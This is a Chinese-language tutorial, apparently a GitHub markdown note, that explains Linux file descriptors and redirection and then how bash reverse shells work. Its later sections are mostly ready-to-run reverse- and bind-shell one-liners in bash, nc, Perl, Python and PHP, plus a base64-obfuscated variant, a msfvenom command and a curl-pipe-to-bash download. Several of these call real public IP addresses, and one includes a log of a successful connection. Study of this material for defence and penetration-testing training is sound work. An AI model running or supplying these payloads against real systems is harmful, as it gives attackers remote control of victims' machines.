


## 反弹shell

<br/>

<br/>

### 1、linux文件描述符

文件描述符是一个非负整数，内核需要通过这个文件描述符才可以访问文件；

在Linux系统中内核默认为每个进程创建三个标准的文件描述符：0（标准输入）、1（标准输出）、2（标准错误）；

通过查看/proc/PID/fd目录下的文件，就可以查看每个进程拥有的所有文件描述符

例子：

```sh
# tail打开一个文件
tail -f 1.log
# 获取tail进程PID
pidof tail
# 查看tail进程创建的文件描述符
ll /proc/98/fd
```



<br/>

### 2、重定向

- 输入重定向：`<`  从文件读取输入
- 输出重定向：`>` 或 `>>` 将输出保存到文件
- 管道：`|` 将一个程序的输出作为输入发送到另外一个程序

<br/>

### 3、linux文件描述符操作

- 更改标准输出位置
  ```sh
  # 把标准输出位置更改到test文件中
  exec 1> test.txt
  
  # 把当前标注你输出重定向到test文件中
  echo '1st' 1> test.txt
  cat test.txt
  ```
- 更改标准输入的位置
  ```sh
  # 从键盘输入，把输入写入user变量
  read user
  # 写入变量值后回车
  
  # 打印变量
  echo $user
  ```
  
  

```sh
# 把test文件中的内容重定向到标准输入
read user 0< test.txt
# 输入变量
echo $user
# 标准错误
exec 2> test.txt
```

- 创建文件描述符
  
  创建
  
  `exec 文件描述符 <> 文件名`
  
  调用
  
  `&文件描述符`  
  
  *注：这里的 & 目的是为了区分数字名字的文件和文件描述符，如果没有 & 系统会认为是将文件描述符重定向到了一个数字作为文件名的文件，而不是一个文件描述符。且重定向之间所有字符间不要有空格。*
  
  关闭
  
  `exec 文件描述符<&-`   或  `exec 文件描述符>&-`
  
  举例
  ```sh
  exec 50> test.txt
  echo 'are you ok?' 1>&5
  cat test.txt
  ```
- /dev/null
  
  特殊文件，写入的任何东西都会被清空
  
  a.把表顺错误输出重定向到/dev/null，从而丢掉不想保存的错误信息
  
  `whoami 2> /dev/null`
  
  b.快速移除文件中的数据而不用删除文件
  
  `cat /dev/null > test.txt`
  
  <br/>

### 4、Bash反弹Shell原理

- 原理解释
  
  拓展文档：`https://www.isisy.com/1241.html`
  
  控制端开启监听：`nc -lvvp [端口]`
  
  被控端执行连接：`bash -i 1> /dev/tcp/[攻击机host]/[端口] 0>&1 2>&1`
  
  命令原理:
  - `bash -i`：开启一个交互式的Shell
  - `1>` `/dev/tcp/[攻击机host]/[端口]`：调用socket建立链接，将标准输出（1）重定向到TCP的连接上面，也就是将标准输出发送给远程主机
  - `0>&1` `2>&1`：将标准输入（0）和错误输出流（2）都指向标准输出（1），而标准输出我们已经发给了远程主机，那么相当于是将输入输出流都重定向到了TCP连接，即本地主机可以通过TCP连接来接收指令，并且将输出流全部发给远程主机。
  - 故该命令也可简写为如下：
    
    `bash -i >& /dev/tcp/[攻击机host]/[端口] 0>&1`
- 细分操作
  
  (a).通过socket连接通信
  ```sh
  # 监听端口
  nc -lvvp 9999
  # 输出重定向到socket
  echo hello > /dev/tcp/192.168.0.1/9999
  ```
  
  (b).从socket读取内容
  ```sh
  # 监听端口
  nc -lvvp 9999
  # 输入重定向到本机cat
  cat < /dev/tcp/192.168.0.2/9999
  ```
  
  (c).bash反弹
  
  bash反弹常规写法
  ```sh
  # >& 或 &> ：混合输出（正确错误的输出都输出到一个地方）
  bash -i &> /dev/tcp/10.10.1.11/6666 0>&1
  # 0>&1 ：将标准输入也重定向到控制端
  bash -i > /dev/tcp/10.10.1.11/6666 0>&1 2>&1
  ```
  
  (d).查看bash描述符

获取bash进程ID
`ps -elf | grep "bash -i"`
查看进程文件描述符
`ll /proc/92893/fd`

<br/>

### 5、Linux反弹Shell方法

- NC
  - NC正向shell
被控端；
`nc -lvvp 8888 -e /bin/sh`
控制端：
`nc 10.10.1.187 8888`
原理：
    > 被控端使用NC将/bin/sh绑定到本地的8888端口，控制端主动连接被控端的8888端口，即可获得shell
  - NC反向shell
控制端：
`nc -lvvp 8888`
被控端：
`nc -e /bin/sh 10.10.1.187 8888`
原理：
    > 被控端使用nc将/bin/sh发送到空hi段的8888端口，控制端只需要监听本地8888端口即可获得shell
优点：直接反弹，没有多余符号。
缺点：部分系统安装的有些事不提供反向连接的版本(没有-e参数)，此时需要自己上传编译后的二进制版本
  - 没有-e参数反弹
使用管道符号，控制端需要开启两个监听端口
`nc x.x.x.x port1 | /bin/bash | nc x.x.x.x port2`
*监听2个端口分别用来输入和输出，其中x.x.x.x均为攻击者IP。*
- Bash
被控端：
`bash -i &> /dev/tcp/107.182.190.222/9999 0>&1`
控制端：
`nc -lvvp 9999`
以下方法也可
被控端：
`exec 5<>/dev/tcp/139.155.49.43/6666;cat <&5 | while read line; do $line 2>&5 >&5; done`
控制端：
`nc –lvvp 6666`
base64编码绕过：
`bash -c "echo YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny4xMDEuMjE0Ljg1LzY2NjYgMD4mMQ==|base64 -d|bash -i"`
msf
`msfvenom -p cmd/unix/reverse_bash lhost=10.10.1.11 lport=6666 -f raw`
- Perl
  
  `perl -e 'use Socket;$i="47.101.214.85";$p=6666;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`
- Curl
  
  控制端
  ```sh
  root@VM-0-2-ubuntu:~# cat index.html
  bash -i >& /dev/tcp/139.155.49.43/6666 0>&1
  
  root@VM-0-2-ubuntu:~# python3 -m http.server
  Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
  47.101.214.85 - - [03/Dec/2020 09:21:39] "GET /1.sh HTTP/1.1" 200 -
  ```
  
  被控端
  ```sh
  curl 139.155.49.43:8000|bash
  
  root@VM-0-2-ubuntu:~# nc -lvvp 6666
  Listening on [0.0.0.0] (family 0, port 6666)
  Connection from 47.101.214.85 46370 received!
  root@iZuf6j06q5f1lZ:~#
  ```
- Python
  ```sh
  python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("47.101.214.85",6666));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
  ```
- PHP
  ```sh
  php -r '$sock=fsockopen("47.101.214.85",7777);exec("/bin/sh -i <&3 >&3 2>&3");'
  ```

### 6、Refer

  `https://medium.com/@int0x33/day-43-reverse-shell-with-openssl-1ee2574aa998`

<br/>

### 7、生成shell反弹指令

网址：`https://weibell.github.io/reverse-shell-generator/`
